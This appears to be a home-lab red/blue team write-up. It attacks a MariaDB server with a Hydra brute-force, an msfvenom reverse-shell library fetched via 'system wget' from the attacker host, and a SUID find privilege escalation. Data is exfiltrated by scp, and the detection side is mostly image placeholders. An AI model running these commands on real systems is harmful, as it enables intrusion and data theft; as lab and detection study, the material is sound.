# TECH-BUREAU SERIES: PHASE 02
## CVE exploitation, privilege escalation and protocol tunneling.
### WHATS SHOWCASED
<section>
  <ul class="hover-card"> 
    <li>
      <strong>OFFENSE:</strong> Leveraging a system misscofiguration, priviledge escalating using an administrative oversight, Stealthy Data exfiltration 
    </li>
  </ul>
  <ul class="hover-card"> 
    <li>
      <strong>DEFENSE:</strong> Being more cautious and restrictive with the server. 
    </li> 
  </ul>
</section>

### The initial Setup
...

### PERMISSION CHANGE

root@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/PROJECT.5527# sudo chown lead_engineer:lead_engineer /home/lead_engineer/PROJECT.5527
root@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/PROJECT.5527# sudo chmod 700 /home/lead_engineer/PROJECT.5527
root@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/PROJECT.5527# ls -l
total 8
-rw-r--r-- 1 lead_engineer lead_engineer 398 Feb 14 09:03 Frame_specs.txt
-rw-r--r-- 1 root          root          396 Mar  6 13:44 Valve_specs.txt

### QUICK CHECK

intern@TECH-BUREAU-UBUNTU-24:/home/lead_engineer$ cd PROJECT.5527/
-bash: cd: PROJECT.5527/: Permission denied

### PASSWORD CHANGE

root@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/PROJECT.5527# sudo passwd intern
New password: +p*yckWMu5b2eW*BCP0x+NnpJ3It58Ae
Retype new password: +p*yckWMu5b2eW*BCP0x+NnpJ3It58Ae
passwd: password updated successfully

# AT4K-3XPR3S rolling out.
We are back for an other round. In this scenario we no longer rely on SSH or HTTP. 
We have gathered from previous enumiration that the port 3306 is up and running, the servise in question is MariaDB, 
which has a known vulnerability/misconfiguration we would like to exploit to gain remote code execution. 
For this caper we are searching for yet another piece of data - file name: "*Valve_specs.txt*". 
With the vulnerability researched off we pop. 

## 01.MySQL credential Hydra Attack

<pre data-label="hydra bruteforce"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.02$ hydra -l admin -P ROCK_YOU_10.txt mysql://TECH-BUREAU

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Hydra sstarting at 2026-03-13 15:05:27
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10 login tries (l:1/p:10), ~3 tries per task
[DATA] attacking mysql://TECH-BUREAU:3306/

[3306][mysql] host: <strong>TECH-BUREAU</strong>   login: <strong>admin</strong>   password: <strong>password</strong>
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2026-03-13 15:05:27
</code></pre>

We have a hit. With the credentials secure its time to work on that CVE, 
prepare a reverse shell file we will send and execute within the MariaDB, granting access.  

## 02.MetaSploit Venom

<pre data-label="Generate payload"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.02$ msfvenom -p linux/x64/shell_reverse_tcp
LHOST=192.168.1.16 LPORT=4444 -f elf-so -o sql_updater.so

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: <strong>sql_updater.so</strong>
</code></pre>

We need to gaina shell on the BUREAU server, so we generate this nifty little file with **Venom**. 
Making sure to specify our attack box as the host and a distinct port that we shall be listening on using **netcat**. 
The payload is named inconspicuously as *sql_updater.so*, doesn't sound suspicious now does it. 

## 03.Enter the SQL

<pre data-label="SQL Login"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.02$ mysql -h TECH-BUREAU -u admin -p
Enter password:<strong>password</strong>

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 52
Server version: 10.11.14-MariaDB-0ubuntu0.24.04.1-log Ubuntu 24.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
</code></pre>

We are in, time to establish a http server on our attack machine on port 4040 and send over the reverse shell. 

## 04.WGET via SQL and CHMOD
<pre data-label="GET + CHMOD"><code>
MariaDB [(none)]> system wget http://192.168.1.16:4040/sql_updater.so -O /tmp/sql_updater.so;
--2026-03-13 15:06:27--  http://192.168.1.16:4040/sql_updater.so
Connecting to 192.168.1.16:4040... <strong>connected.</strong>
HTTP request sent, awaiting response... <strong>200 OK</strong>
Length: 476 [application/octet-stream]
Saving to: ‘/tmp/sql_updater.so’

/tmp/sql_updater.so          <strong>100%[=============================================>]</strong>     476  --.-KB/s    in 0.05s   

2026-03-13 15:06:27 (9.37 KB/s) - ‘<strong>/tmp/sql_updater.so’</strong> saved [476/476]

MariaDB [(none)]> system chmod +x /tmp/sql_updater.so;
</code></pre>

To use a non sql command we have to use system as a precursor and make sure to put a semicolon on the end of teh command. 
We use a standart wget call that is going to teh attack box and port 4040. 
The file is downloaded succesfully and we add the executable bit to it for our exploit. 

## 05.GAINING A SHELL
<pre data-label="shell initiated"><code>
MariaDB [(none)]> CREATE FUNCTION <strong>sys_exec</strong> RETURNS INT SONAME <strong>'sql_updater.so'</strong>;
ERROR 2013 (HY000): Lost connection to server during query  
</code></pre>

Here we envoke a function that the database would read, but because of a missconfiguration in the settings 
and an unpached service it is actualy executing the file we have provided. 
The MariaDB connection hangs and we gain a shell on our atack box's netcat listener. 

<pre data-label="shell recieved"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.02$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.10 55712
</code></pre>

## 06.STABILIZING THE SHELL

<pre data-label="shell stabelized"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.02$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.10 55712
<strong>python3 -c "import pty;pty.spawn('/bin/bash')"</strong>
mysql@TECH-BUREAU-UBUNTU-24:/var/lib/mysql$ export TERM=xterm</strong>
export TERM=xterm
mysql@TECH-BUREAU-UBUNTU-24:/var/lib/mysql$ ^Z
[1]+  Stopped                 nc -lvnp 4444
square@AT4K-3XPR3S:~/BUREAU.02$ <strong>stty raw -echo; fg</strong>
nc -lvnp 4444
             <strong>whoami</strong>
mysql
<strong>mysql@TECH-BUREAU-UBUNTU-24:</strong>/var/lib/mysql$ 
</code></pre>
Stabilising teh shell is crutial to have proper cli capabilities of a working terminal. 
Without the stabilisation some commands wouldnt run and the shell is very fragile. 
So we spawn a python shell "enterpreter" and then run a few more commands to bring in the full functionality. 
Here is an example of a messed up shell stabilization, I did not use the Ctrl-Z comand in the right order 
and I have failed to run the "*stty raw -echo; fg*" command on my netcat listener. 
HOWEVER it still worked for my future endevours. 

## 07.CD IN TO PROJECT.5527

<pre data-label="CD attempt"><code>
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/ls
PROJECT.5527  TOOLS
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer$ cd PROJECT.5527/
bash: cd: PROJECT.5527/: <strong>Permission denied</strong>
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer$ cd TOOLS
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/TOOLS$ ls
<strong>engineer_find</strong>
</code></pre>

We cant access the PROJECT folder due to inadequate permission level of user **sql**. 
Luckily we notice TOOL folder with a *find* binary inside. We check it out.

## 08.Examining the binary

<pre data-label="File Check"><code>
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/TOOLS$ ls -l
total 200
-rw<strong>s</strong>r-xr-<strong>x</strong> 1 lead_engineer lead_engineer 204264 Mar 12 10:39  engineer_find
</code></pre>

We see that the binary is configured to be executable by **all**, and most importantly the **s** bit is set, 
wich grants the find comand the priviliges of *lead_engineer* upon execution. This can be used for escalation. 

## 09.SUID Privilege Escalation

<pre data-label="SUID breakout"><code>
mysql@TECH-BUREAU-UBUNTU-24:~/TOOLS$ ./engineer_find . -exec /bin/bash -p \; -quit
bash-5.2$ whoami
<strong>lead_engineer</strong>
bash-5.2$ 
</code></pre>

We use the GTFObins as the code source, this technique is a stealthy living of the land concept. 
We use what is provided by the host system. The *find* binary by default alows the execute comand 
so a /bin/bash command is what grants us the shell and the -p flag gives the persistance of the *lead_engineer* privileges. 

## 10.CONFIRM DATA

<pre data-label="SUID breakout"><code>
bash-5.2$ cd PROJECT.5527/
bash-5.2$ ls
Frame_specs.txt  <strong>Valve_specs.txt</strong>
bash-5.2$ cat Valve_specs.txt 
T1s shall use poppet valves!
(Instead of the normal spool-shaped, sliding valve system.)
As a cam shaft rotates, either the intake valve or the exhaust valve is opened.
Steam is admitted to the cylinder and the valve is closed.
The process repeats for the exhaust.
A dedicated exhaust valve is opened, allowing steam to escape the cylinder.

Result: dramatically improved steam-usage efficiency.
bash-5.2$ 
</code></pre>

We can now easily access the data filder and check the new file, 
it is accessable and in fact what we are looking for. 

## 11.SECURE COPY PROTOCOL

<pre data-label="SCP Exfiltration"><code>
bash-5.2$ scp Valve_specs.txt square@192.168.1.16:~/BUREAU.02/
The authenticity of host '192.168.1.16 (192.168.1.16)' can't be established.
ED25519 key fingerprint is SHA256:4km0uXkh784O7Fc9TGf4Yc8rC2+2ZmvxXSkYLMD8w/Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
square@192.168.1.16's password: <strong>********</strong> 
<strong>Valve_specs.txt</strong>                               <strong>100%</strong>  396    37.5KB/s   00:00   
</code></pre>

In this scenario we asume that the http/https trafic out is closeley monitored, 
and we want to be hidden, so we simply use the Secure Copy protocol over SSH port 22. 
The data is safeley exfiltrated over an encrypted channel. The Sneak Way. 

## 12.EXIT
<pre data-label="Exit"><code>
exit
mysql@TECH-BUREAU-UBUNTU-24:/home/lead_engineer/TOOLS$ exit
exit
</code></pre>

Thank You. Good Bye.

# TECH-BUREAU ROLLING OUT

## 01.WAZUH ALERTS

.png)

<small>'01.Wazuh-alerts.png'</small>

Yet again we have cought the entierity of the attack.

## 02.SQL BRUTEFORCE



<small>'02.SQL-brute.png'</small>

In the alert details we see that the bruteforce is atempted under the user name: **admin**.

## 03.PCAP BRUTE-CROSS



<small>'12.Wireshark-SQL-brute.png'</small>

We can clearly see the multitude of *server greetings* fllowed by *login requests under the username:* **admin** 
and than emediatly turned down with *response error 1045*. 
The whole exchange is happening within a second. 

#### BRUTEFORCE CONFIRMED

## 04.SUSPICIOUS HTTP GET.



<small>'13.SQL-GET.png'</small>

In the entire packet capture we have one objcect. 
A suspicious **sql_updater.so** file that has been delivered via a non standart HTTP port 4040. 
We can investigate furtehr by checking the http stream. 

## 05.HTTP STREAM



<small>'14.Wireshark-GET-stream.png'</small>

The contents look quite jumbeled up but in the tail end there we see a /bin/sh string, 
wich would confirm a malicious payload has been sent out to our server. 

#### SHELLSCRIPT CONFIRMED

## 06.



<small>'03.SQL-so-execution.png'</small>

## 04...



<small>'04.SUID.png'</small>

## 05...



<small>'05.CAT.png'</small>

## 06...



<small>'06.SCP.png'</small>

## 07...



<small>'07.RULE-SQL-BRUTE.png'</small>

## 08...



<small>'08.RULE-SQL-SHELL.png'</small>

## 09...



<small>'09.RULE-SQL-ESCALATION.png'</small>

## 10...



<small>'10.RULE-CAT.png'</small>

## 11...



<small>'11.RULE-SCP.png'</small>

## 15...



<small>'15.a.Wireshark-so-exec.png'</small>

## 15b...



<small>'15.b.Wireshark-packet-details.png'</small>

## 16...



<small>'16.Wireshark-Graph.png'</small>

## LESSONS LEARNED
#### As the attacker: 
*  
*  
*  

#### As the defender: 
*  
*  
* . 
 
Continue?
 
[**TECH-BUREAU-SERIES: PHASE 03.** ](./TECH-BUREAU-PHASE-03.md)  
*Phish, infect, persist, escalate, obfuscate and extract. The system has been hardened to the fullest. 
A phishing campaign  is now in the cards, but how can we extract the data this time to dupe the TECH-BUREAU? 
**STAY TUNED TO FIND OUT!***

  
  ⦿
  

[3.2]

